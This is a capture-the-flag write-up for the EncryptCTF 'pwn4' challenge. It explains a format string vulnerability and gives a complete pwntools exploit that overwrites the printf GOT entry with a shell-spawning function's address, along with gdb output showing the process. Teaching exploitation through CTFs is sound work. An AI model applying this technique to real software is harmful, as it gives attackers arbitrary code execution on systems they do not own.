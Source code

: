 ## EncryptCTF: pwn4
##### *tl;dr: format string vulnerability*
#### I didn't solve this during the ctf since I had no knowledge regarding format string vulnerabilities and how to exploit them at that time. But with a little bit of reading, watching, and practice, I managed to solve it at last. For a better understanding of how the exploit works, watch LiveOverflow's [video](https://www.youtube.com/watch?v=t1LH9D5cuK4&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=21&t=221s). Checking the security of the binary, we get this:
```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
#### Stack protection measures are on, guaranteeing that we won't be doing some stack-smashing on this challenge. And interesting to see the `No RELRO` protection, which means that we can overwrite stuff on the `Global Offset Table`. We do a quick format string test running the binary.
```
$ ./pwn4
Do you swear to use this shell with responsility by the old gods and the new?

AAAA %p %p %p %p %p %p %p %p %p %p %p %p
AAAA (nil) 0x2 (nil) 0xf7ffda9c 0x1 0xf7fcf410 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025
i don't belive you!
AAAA %p %p %p %p %p %p %p %p %p %p %p %p
```
#### And we can confirm that we have a format string vuln since we printed out values from the stack. We can also locate our buffer which is at the 7th offset. We can put our address at that offset and we can overwrite it to change control flow. But where do we want to redirect it to? Using gdb, we find a peculiarly labeled function `__` at address `0x0804853d`. Disassembling it we see the following code which grants us an interactive shell. 
```
gdb-peda$ disas __
Dump of assembler code for function __:
   0x0804853d <+0>:	push   ebp
   0x0804853e <+1>:	mov    ebp,esp
   0x08048540 <+3>:	sub    esp,0x18
   0x08048543 <+6>:	mov    DWORD PTR [esp],0x8048680
   0x0804854a <+13>:	call   0x8048400 <system@plt>
   0x0804854f <+18>:	leave  
   0x08048550 <+19>:	ret    
End of assembler dump.
```
#### Now that we have what we want to write, we figure out where do we want to write it to - the GOT entry of printf. If we successfully pull this off, when printf function is used, the flag function is called instead. We can easily get the addresses we need with gdb.
```
gdb-peda$ p printf
$1 = {<text variable, no debug info>} 0x80483c0 <printf@plt>

gdb-peda$ disas printf
Dump of assembler code for function printf@plt:
   0x080483c0 <+0>:	jmp    DWORD PTR ds:0x80498fc
   0x080483c6 <+6>:	push   0x0
   0x080483cb <+11>:	jmp    0x80483b0
End of assembler dump.
```
## Exploitation
#### Before we proceed to the exciting part, we first do a test onto writing to the printf entry using a simple python script, save the output to a file for debugging purposes. 
```python
from pwn import *

#: Exploit code
offset = 7
printf_got = 0x80498fc
flag_addr = 0x804853d
exploit = p32(printf_got) + '%7$n'
print(exploit)
```
#### To see if our exploit will indeed overwrite the current printf GOT into 4 (since 32-bit addresses are 4 bytes, and we'll be writing these four bytes onto the seventh offset with `%7$n`), we set a breakpoint before the last printf call and examine the GOT address.
```
$ python exploit.py > exploit

[...]

gdb-peda$ break *0x080485c4
Breakpoint 1 at 0x80485c4

gdb-peda$ r < exploit
[...]
Breakpoint 1, 0x080485c4 in main ()
gdb-peda$ x/wx 0x080498fc
0x80498fc <printf@got.plt>:	0x00000004
```
#### And yup! We have successfully overwritten the GOT entry for printf. Now we want to overwrite it with the flag functions address. We'll make some quick changes to our script to print out a number of spaces equal to that of the flag function's address then write it into the offset:
```python
from pwn import *

#: Exploit code
offset = 7
printf_got = 0x80498fc
flag_addr = 0x804853d
exploit = p32(printf_got) + '%{}i%7$n'.format(flag_addr)
print(exploit)
```
#### Test it again with gdb, but it'll take a while to debug since it'll print out a lot of spaces so we'll have to wait:
```
gdb-peda$ r < exploit
[...]
Breakpoint 1, 0x080485c4 in main ()

gdb-peda$ x/wx 0x080498fc
0x80498fc <printf@got.plt>:	0x08048541
```
#### Something seems weird, our exploit should've worked, but it seems that we went a little bit too far of the value we want to be written. Doing a quick calculation, `0x08048541 - 0x0804853d = 4`, we only need to subtract 4 from the flag address in our exploit script to get what we want to. For our final exploit to get an interactive shell:
##### exploit.py
```python
from pwn import *

#: Connect to challenge server
p = process('./pwn4')
print(p.recv())

#: Exploit code
flag_addr  = 0x0804853d
printf_GOT = 0x080498fc
offset = 7
exploit = p32(printf_GOT) + '%{}i%7$n'.format(flag_addr-4)

#: Send payload
p.sendline(exploit)
print(p.recv())
p.interactive()
```
#### Running it will take some time, but it's worth the wait, we get our shell and our flag!
```
$ python exploit.py
[...]
[*] Switching to interactive
$ cat flag.txt
encryptCTF{Y0u_4R3_7h3_7ru3_King_0f_53v3n_KingD0ms}
```
